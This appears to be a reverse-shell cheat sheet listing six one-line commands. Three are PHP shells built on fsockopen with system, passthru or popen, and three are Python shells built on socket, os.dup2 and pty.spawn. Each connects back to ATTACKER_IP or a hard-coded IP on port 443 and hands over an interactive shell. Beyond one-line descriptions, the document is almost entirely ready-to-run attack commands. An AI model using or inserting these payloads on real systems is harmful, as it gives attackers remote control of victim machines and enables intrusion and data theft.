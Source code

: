 ### PHP Reverse Shell Using the system Function

- This reverse shell employs the system function, which executes the command and outputs the result to the browser.

```
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

### PHP Reverse Shell Using the passthru Function

- The passthru function executes a command and sends raw output back to the browser. This is useful when working with binary data.

```
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

### PHP Reverse Shell Using the popen Function

- This reverse shell uses popen to open a process file pointer, allowing the shell to be executed.

```
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

### Python Reverse Shell by Exporting Environment Variables

- This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

```
 export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

### Python Reverse Shell Using the subprocess Module

- This reverse shell uses the subprocess module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

### Short Python Reverse Shell

- This reverse shell creates a socket (s), connects to the attacker, and redirects standard input, output, and error to the socket using os.dup2().

```
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
